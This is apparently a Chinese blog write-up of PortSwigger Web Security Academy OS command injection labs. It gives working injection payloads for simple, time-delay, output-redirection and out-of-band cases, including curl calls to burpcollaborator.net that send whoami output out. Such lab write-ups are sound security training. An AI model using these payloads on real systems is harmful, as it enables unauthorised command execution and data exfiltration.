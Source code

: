 ```yaml
---
layout: post
title: "Burpsuite Academy系列教程-OS command injection"
date:   2021/8/22
tags: [Burpsuite Academy系列教程]
comments: true
author: c-uncle
---
```


# OS command injection



#### Lab: OS command injection, simple case

目标是利用命令注入漏洞获取whoami

漏洞点在/product/stock页面，是个POST请求，参数为productId=&storeId=

很奇怪，我尝试payload：%26 whoami %26，一直报错，没有正常回显。

```
sh: 1: 9: not found
/home/peter/stockreport.sh: line 5: $1: unbound variable
```

最后用了这个payload才成功回显：%26 echo $(whoami)

```
peter-nl4nsX 9
```

%26 $(whoami)  这个payload也可以，回显如下

```
sh: 1: peter-nl4nsX: not found
/home/peter/stockreport.sh: line 5: $1: unbound variable
```

官方的payload是1|whoami，但是这个payload是加在storeId上的。

我想问题可能出在shell脚本的执行上，将payload放在productId上，shell会将payload作为脚本的参数。



## Blind OS command injection vulnerabilities

大多时候命令注入漏洞都是没有回显的，这种情况下，使用echo来判断是否存在漏洞就起不了作用。但是我们依然有办法来验证漏洞是否存在。

假设有一个场景，网站提供给用户一个订阅功能，用户通过这个功能可以提交自己的邮箱，网站可以定时向用户的邮箱发送活动资料。那么网站可能会用到下面的命令

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

### Detecting blind OS command injection using time delays

我们通过触发延时操作来验证是否存在漏洞。例如ping命令就是一个能够有效触发延时的命令。

```
ping -c 10 127.0.0.1
```

执行这个命令需要10秒

#### Lab: Blind OS command injection with time delays

目标：触发延时操作验证漏洞

下面是我的payload（注意页面带有csrf防护）

```
csrf=gewzKojftzPeogtgbxsZhP4t0kN8QexU&name=1&email=11$(ping -c 10 127.0.0.1)&subject=1&message=1
```

$符号真好用，$(command)，括号里的内容会被当作命令执行，并且$(command)可以被放在命令的参数里。

下面是官方给的payload

```
csrf=gewzKojftzPeogtgbxsZhP4t0kN8QexU&name=1&email=x||ping+-c+10+127.0.0.1||&subject=1&message=1
```

解释一下||，A||B 	A不行时再执行B。

### Exploiting blind OS command injection by redirecting output

我们可以通过重定向符号，将命令执行的结果保存在服务器上。例如保存在网站的静态资源文件夹中（/var/www/static）.

```
& whoami > /var/www/static/whoami.txt &
```

执行完上面的命令，我们就能通过访问http://xxxx/whoami.txt来查看命令执行结果。

#### Lab: Blind OS command injection with output redirection

目标：获取whoami的内容。

利用submit feedback功能，插入下面的payload。

payload

```
email=x||whoami > /var/www/images/whoami.txt||
```

按照提示，网站图片都存放在/var/www/images/里。

通过F12查看网站图片地址，只要使用下面的url，即可访问我们写在服务器的文件。

/image?filename=whoami.txt

### Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

我们可以结合OAST技术来利用OS盲注

#### Lab: Blind OS command injection with out-of-band interaction

目标：使用命令注入漏洞进行DNS查询。

```
payload
email=x||curl http://burpcollaborator.net||
```

#### Lab: Blind OS command injection with out-of-band data exfiltration

目标：利用OAST技术，获取whoami的执行结果

```
payload
x||curl http://`whoami`.burpcollaborator.net||
```

## How to prevent OS command injection attacks

最有效的防护是不要从应用层代码调用操作系统命令。

